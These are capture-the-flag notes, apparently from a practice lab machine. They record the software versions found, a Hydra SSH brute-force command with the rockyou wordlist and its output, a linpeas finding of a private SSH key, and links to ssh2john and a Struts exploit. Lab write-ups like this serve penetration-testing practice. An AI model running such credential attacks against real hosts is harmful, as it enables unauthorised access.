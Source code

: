 ## Stuff found

apache struts 2.5.12
Sudo version 1.8.16
Linux version 4.4.0-119-generic

```plaintext
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

```plaintext
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

## Hydra

```
hydra -l jan -P rockyou.txt ssh://10.10.210.25
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-16 20:18:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.210.25:22/
[STATUS] 107.00 tries/min, 107 tries in 00:01h, 14344295 to do in 2234:19h, 16 active
[STATUS] 113.33 tries/min, 340 tries in 00:03h, 14344062 to do in 2109:26h, 16 active
[STATUS] 105.71 tries/min, 740 tries in 00:07h, 14343662 to do in 2261:24h, 16 active
[22][ssh] host: 10.10.210.25   login:   password:
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-02-16 20:26:32
```

## Linpeas

Possible private SSH keys were found!                                                                                                                              
```shell             
/home/kay/.ssh/id_rsa
```

## Links
https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py
https://www.exploit-db.com/exploits/42627
https://allabouttesting.org/samba-enumeration-for-penetration-testing-short-tutorial/